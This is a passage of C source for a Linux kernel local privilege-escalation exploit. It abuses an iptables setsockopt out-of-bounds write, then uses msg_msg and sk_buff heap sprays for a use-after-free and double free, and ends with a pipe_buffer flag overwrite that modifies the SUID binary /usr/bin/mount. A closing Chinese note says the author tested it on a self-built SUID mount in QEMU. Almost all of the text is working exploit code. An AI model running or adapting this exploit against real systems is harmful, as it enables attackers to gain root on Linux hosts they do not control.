pipe_buffer { u_int64_t page; u_int32_t offset, len; uint64_t ops; uint32_t flags; uint64_t private; } __attribute__((aligned(8))); #define FIRST_MSG_SIZE (0x1000 - sizeof(struct msg_msg)) #define SECOND_MSG_SIZE (0x400 - sizeof(struct msg_msg)) #define SOCKET_SUM 16 #define PIPE_SUM 256 #define SK_BUFF_IN_ONE_SOCKET 128 #define N_SPRAY_MSGMSG 0x2000 struct first_msg { long message_type; u_int8_t message[FIRST_MSG_SIZE]; }; struct second_msg { long message_type; u_int8_t message[SECOND_MSG_SIZE]; }; int msgids[N_SPRAY_MSGMSG]; char buf[FIRST_MSG_SIZE * 2]; void cleanup_msgs() { printf("[!] cleaning up msg_msg..\n"); for (int i = 0; i < N_SPRAY_MSGMSG; i++) { msgctl(msgids[i], IPC_RMID, NULL); } } void err_exit(const char *str) { perror(str); cleanup_msgs(); exit(1); } void secondMsgSend(int msgid, const char *content, int msgtype) { struct second_msg msg; msg.message_type = msgtype; memcpy(msg.message, content, SECOND_MSG_SIZE); if (msgsnd(msgid, &msg, SECOND_MSG_SIZE, 0)) { err_exit("[-] msgsnd"); } } void firstMsgSend(int msgid, const char *content, int msgtype) { struct first_msg msg; msg.message_type = msgtype; memcpy(msg.message, content, FIRST_MSG_SIZE); if (msgsnd(msgid, &msg, FIRST_MSG_SIZE, 0)) { err_exit("[-] msgsnd"); } } void triggerOob(int socket_fd) { // adapted from // https://github.com/google/security-research/security/advisories/GHSA-xxx5-8mvq-3528 struct __attribute__((__packed__)) { struct ipt_replace replace; struct ipt_entry entry; struct xt_entry_match match; char pad[0xFB6 - 172 - 4]; struct xt_entry_target target; } data = {0}; data.replace.num_counters = 1; data.replace.num_entries = 1; data.replace.size = sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad) + sizeof(data.target); data.entry.next_offset = sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad) + sizeof(data.target); data.entry.target_offset = sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad); data.match.u.user.match_size = sizeof(data.match) + sizeof(data.pad); strcpy(data.match.u.user.name, "icmp"); data.match.u.user.revision = 0; data.target.u.user.target_size = sizeof(data.target); strcpy(data.target.u.user.name, "NFQUEUE"); data.target.u.user.revision = 1; // partial overwrite the next object if (setsockopt(socket_fd, SOL_IP, IPT_SO_SET_REPLACE, &data, sizeof(data))) { if (errno == ENOPROTOOPT) { err_exit("ip_tables module is not loaded!\n"); } printf("error: %d\n", errno); perror("[-] setsockopt"); } } int sk_buff_spray(int sk_socket[SOCKET_SUM][2], void *buf, size_t size) { for (int i = 0; i < SOCKET_SUM; i++) { for (int j = 0; j < SK_BUFF_IN_ONE_SOCKET; j++) { if (write(sk_socket[i][0], buf, size) != size) { perror("[-] write sk_buff"); return -1; } } } return 0; } int sk_buff_free(int sk_socket[SOCKET_SUM][2], void *buf, size_t size) { for (int i = 0; i < SOCKET_SUM; i++) { for (int j = 0; j < SK_BUFF_IN_ONE_SOCKET; j++) { if (read(sk_socket[i][1], buf, size) != size) { perror("[-] read sk_buff"); return -1; } } } return 0; } int main() { if (unshare(CLONE_NEWUSER)) { err_exit("[-] unshare(CLONE_NEWUSER)"); } if (unshare(CLONE_NEWNET)) { err_exit("[-] unshare(CLONE_NEWNET)"); } int socket_fd; int sk_sockets[SOCKET_SUM][2]; int pipe_fds[PIPE_SUM][2]; if ((socket_fd = socket(AF_INET, SOCK_STREAM, 0)) < 0) { err_exit("[-] socket"); } for (int i = 0; i < SOCKET_SUM; i++) { if (socketpair(AF_UNIX, SOCK_STREAM, 0, sk_sockets[i]) < 0) { err_exit("[-] socketpair"); } } // https://stackoverflow.com/questions/280909/how-to-set-cpu-affinity-for-a-process-from-c-or-c-in-linux cpu_set_t cpu_mask; CPU_ZERO(&cpu_mask); CPU_SET(0, &cpu_mask); if (sched_setaffinity((__pid_t)0, 1, (const cpu_set_t *)&cpu_mask)) { err_exit("[-] sched_setaffinity"); } memset(buf, 0x00, sizeof(buf)); // spray heap with msg_msg printf("[!] start msg_msg spraying..\n"); for (int i = 0; i < N_SPRAY_MSGMSG; i++) { msgids[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT); if (msgids[i] < 0) { err_exit("[-] msgget"); } } for (int i = 0; i < N_SPRAY_MSGMSG; i++) { firstMsgSend( msgids[i], buf, N_SPRAY_MSGMSG * 2 + i); // this id is for the sake of debugging } for (int i = 0; i < N_SPRAY_MSGMSG; i++) { ((int *)buf)[0] = i; secondMsgSend(msgids[i], buf, 1); } printf("[+] msg_msg spraying done!\n"); #define HOLE_STEP 0x200 for (int i = N_SPRAY_MSGMSG / 2 + HOLE_STEP; i < N_SPRAY_MSGMSG; i += HOLE_STEP) { msgrcv(msgids[i], buf, FIRST_MSG_SIZE, 0, 0); } // oob printf("[!] triggering oob\n"); triggerOob(socket_fd); // find the msg that can be uaf int first_id = -1, second_id = -1; for (int i = 0; i < N_SPRAY_MSGMSG; i++) { if (i % HOLE_STEP == 0) { continue; } if (msgrcv(msgids[i], buf, SECOND_MSG_SIZE, 1, MSG_COPY | IPC_NOWAIT) < 0) { err_exit("[-] msgrcv"); } if (((int *)buf)[1] != i) { first_id = i; second_id = ((int *)buf)[1]; printf("[+] found UAF target: first id 0x%x, second id 0x%x\n", first_id, second_id); } } if (first_id == -1) { err_exit("[-] failed to oob msg_msg"); } // create a UAF, start sk_buff spray if (msgrcv(msgids[second_id], &buf, SECOND_MSG_SIZE, 1, 0) < 0) { err_exit("[-] msgrcv"); } char fake_msg_buf[0x400 - 320]; struct msg_msg *fake_msg = (struct msg_msg *)fake_msg_buf; fake_msg->m_list.next = 0xAAAAAAAAAAAAAAAA; fake_msg->m_list.prev = 0xBBBBBBBBBBBBBBBB; fake_msg->next = 0; fake_msg->m_ts = FIRST_MSG_SIZE; fake_msg->m_type = 2; fake_msg->security = 0; if (sk_buff_spray(sk_sockets, fake_msg_buf, sizeof(fake_msg_buf)) < 0) { err_exit("[-] failed to spray sk_buff"); } printf("[+] spray sk_buff done!\n"); // oob read second msg if (msgrcv(msgids[first_id], &buf, FIRST_MSG_SIZE, 1, MSG_COPY | IPC_NOWAIT) < 0) { err_exit("[-] msgrcv"); } printf("[+] successfully oob read\n"); struct msg_msg *next_msg_ptr = (struct msg_msg *)&buf[SECOND_MSG_SIZE + 4]; printf("[+] heap leaked prev_ptr 0x%llx next_ptr 0x%llx\n", next_msg_ptr->m_list.prev, next_msg_ptr->m_list.next); // start leaking UAFed object address assert(sizeof(buf) > sizeof(fake_msg_buf)); if (sk_buff_free(sk_sockets, buf, sizeof(fake_msg_buf)) < 0) { err_exit("[-] freeing sk_buff"); } u_int64_t some_heap_address = next_msg_ptr->m_list.prev; // !!! you don't need to leak the UAFed object's address at all! // fake_msg->next = next_msg_ptr->m_list.prev - 8; // fake_msg->m_ts = FIRST_MSG_SIZE + 0x1000 - sizeof(struct msg_msgseg); // // spray again.. // if (sk_buff_spray(sk_sockets, fake_msg_buf, sizeof(fake_msg_buf)) < 0) { // err_exit("[-] failed to spray sk_buff"); // } // // if (msgrcv(msgids[first_id], &buf, fake_msg->m_ts, 1, MSG_COPY | // IPC_NOWAIT) < // 0) { // err_exit("[-] msgrcv"); // } // u_int64_t uaf_object_addr = // ((u_int64_t *)((char *)buf + FIRST_MSG_SIZE + 4))[0] - 0x400; // printf("[+] UAF object address: 0x%llx\n", uaf_object_addr); // fix UAFed object to double free it fake_msg->m_list.next = some_heap_address + 0x800; fake_msg->m_list.prev = some_heap_address + 0x800; fake_msg->next = 0; fake_msg->m_ts = SECOND_MSG_SIZE; fake_msg->security = 0; fake_msg->m_type = 1; // if (sk_buff_free(sk_sockets, buf, sizeof(fake_msg_buf)) < 0) { // err_exit("[-] freeing sk_buff"); // } if (sk_buff_spray(sk_sockets, fake_msg_buf, sizeof(fake_msg_buf)) < 0) { err_exit("[-] failed to spray sk_buff"); } if (msgrcv(msgids[first_id], &buf, SECOND_MSG_SIZE, 1, 0) < 0) { err_exit("[-] msgrcv"); } printf("[+] double free done!\n"); // spray pipe_buffer for (int i = 0; i < PIPE_SUM; i++) { if (pipe(pipe_fds[i]) < 0) { err_exit("[-] pipe"); } if (write(pipe_fds[i][1], "AAAAAAAA", 8) != 8) { err_exit("[-] write pipe"); } // pipe primitve int suid_fd = open("/usr/bin/mount", O_RDONLY); if (suid_fd < 0) { err_exit("[-] open suid"); } // mount.main@0x1775 off64_t offset = 0x1775 - 1; // we will read one byte if (splice(suid_fd, &offset, pipe_fds[i][1], NULL, 1, 0) < 0) { err_exit("[-] splice"); } } printf("[+] pipe spray done!\n"); int found = -1; char pipe_buf[0x400 - 320]; for (int i = 0; i < SOCKET_SUM; i++) { for (int j = 0; j < SK_BUFF_IN_ONE_SOCKET; j++) { if (read(sk_sockets[i][1], fake_msg_buf, sizeof(fake_msg_buf)) != sizeof(fake_msg_buf)) { perror("[-] write sk_buff"); return -1; } struct pipe_buffer *pipe_buffer_ptr = (void *)fake_msg_buf; if (pipe_buffer_ptr->ops > 0xffffffff81000000) { memcpy(pipe_buf, fake_msg_buf, sizeof(pipe_buf)); printf("[+] found pipe_buffer, ops: 0x%llx\n", pipe_buffer_ptr->ops); found = 1; } } } if (found != 1) { err_exit("[-] failed to find pipe_buffer"); } struct pipe_buffer *pipe_buf_ptr = (void *)pipe_buf; for (int i = 0; i < 16; i++) { #define PIPE_BUF_FLAG_CAN_MERGE 0x10 /* can merge buffers */ pipe_buf_ptr[i].flags |= PIPE_BUF_FLAG_CAN_MERGE; } if (sk_buff_spray(sk_sockets, pipe_buf_ptr, sizeof(fake_msg_buf)) < 0) { err_exit("[+] sk_buff_spray"); } printf("[!] changed pipe_buffer flag\n"); printf("[!] writing to pipe\n"); for (int i = 0; i < PIPE_SUM; i++) { if (write(pipe_fds[i][1], "\xCC\xCC\xCC", 3) < 0) { perror("write pipe"); } } return 0; }
这个 exp 可以修改 /usr/bin/mount 的 0x1775 开始的 3 个字节为 0xCC（写这个地址是因为我在 qemu 中自己编译了一个 fake root owned suid mount ，这个程序的 main 函数在 0x1775 处）。